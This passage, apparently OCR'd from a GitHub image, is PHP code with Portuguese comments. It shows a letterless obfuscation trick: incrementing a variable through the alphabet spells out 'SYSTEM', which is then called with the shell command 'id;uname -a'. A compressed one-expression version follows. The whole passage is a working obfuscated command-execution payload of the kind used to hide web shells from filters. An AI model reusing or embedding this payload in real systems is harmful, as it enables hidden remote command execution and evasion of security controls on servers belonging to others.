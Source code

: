 `# LETRA ENCONTRADA É JOGADA EM UM ARRAY SECUNDÁRIO` ($___[]=$_++);#M

```
($_++); #N
($_++); #O
($_++); #P
($_++); #Q
($_++); #R
```

`# LETRA ENCONTRADA É JOGADA EM UM ARRAY SECUNDÁRIO` ($___[]=$_++);#S

`# LETRA ENCONTRADA É JOGADA EM UM ARRAY SECUNDÁRIO` ($___[]=$_++);#T

```
($_++); #U
($_++); #V
($_++); #W
($_++); #X
```

`# LETRA ENCONTRADA É JOGADA EM UM ARRAY SECUNDÁRIO` ($___[]=$_++);#Y

```
($_++);#Z


# DEBUG DO ARRAY:
/* Array
(
    [0] => E
    [1] => M
    [2] => S
    [3] => T
    [4] => Y
)
*/

# MONTAR STRING COM OS CAMPOS DO ARRAY $___  
$_____=$___[2].$___[4].$___[2].$___[3].$___[0].$___[1];

# USANDO TÉCNICA DE FUNCTION ANONIMA PARA EXECUÇÃO
$_____('id;uname -a');
VERSÃO MINIMALISTA:
($_="").($_[+$_]++).($_=$_."").($_=$_[+""]).($_++)
.($_++).($_++).($_++).($___[]=$_++).($_++).($_++)
.($_++).($_++).($_++).($_++).($_++).($___[]=$_++)
.($_++).($_++).($_++).($_++).($_++).($___[]=$_++)
.($___[]=$_++).($_++).($_++).($_++).($_++)
.($___[]=$_++).($_++)
.($_____=$___[2].$___[4].$___[2].$___[3].$___[0].$___[1])
.($_____('id;uname -a'));

```
